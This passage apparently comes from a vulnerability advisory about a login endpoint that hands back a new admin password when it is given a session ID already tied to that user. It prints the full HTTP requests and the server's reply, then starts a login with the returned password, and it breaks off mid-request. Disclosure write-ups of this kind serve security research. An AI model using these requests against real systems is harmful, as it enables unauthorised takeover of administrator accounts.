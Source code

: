 The method listed above takes the *username* and *sessionId* parameters, and checks if *username* exists in the database and *sessionId* is associated with that *username*. If it is, the application returns a newly generated random password for that username.  
In the previous request, the "*admin"* user was associated with the *sessionId "SOMETHING"*. So now if we perform the following request:
```
POST /albatross/user/login HTTP/1.1
Host: 10.0.10.25:8443
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1)
Content-Type: multipart/form-data; boundary=_Part_224_2171658712_4042463386
Content-Length: 509
Connection: close

--_Part_224_2171658712_4042463386
Content-Disposition: form-data; name="deviceid"


--_Part_224_2171658712_4042463386
Content-Disposition: form-data; name="password"

< ... any string can be sent here ... >
--_Part_224_2171658712_4042463386
Content-Disposition: form-data; name="username"

admin
--_Part_224_2171658712_4042463386
Content-Disposition: form-data; name="clientDetails"


--_Part_224_2171658712_4042463386
Content-Disposition: form-data; name="sessionId"

SOMETHING
--_Part_224_2171658712_4042463386--

```

The server will respond with:
```
{"httpStatus":"200","serverCode":"2001","requestedUrl":"https://10.0.10.25:8443/albatross/user/login","data":"b6e1a82b-3f33-4297-86e1-ca780d16cb02"}
```

... which is now a valid password for the *"admin"* user, as the previous snippet of code shows.

So now let's try and authenticate using that as a password:
```
POST /albatross/user/login HTTP/1.1
Host: 10.0.10.25:8443
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1)
Content-Type: multipart/form-data; boundary=_Part_122_4062871012_3985537084
Content-Length: 435
Connection: close

--_Part_122_4062871012_3985537084
Content-Disposition: form-data; name="deviceid"


--_Part_122_4062871012_3985537084
Content-Disposition: form-data; name="password"

b6e1a82b-3f33-4297-86e1-ca780d16cb02
--_Part_122_4062871012_3985537084
Content-Disposition: form-data; name="username"

admin
```
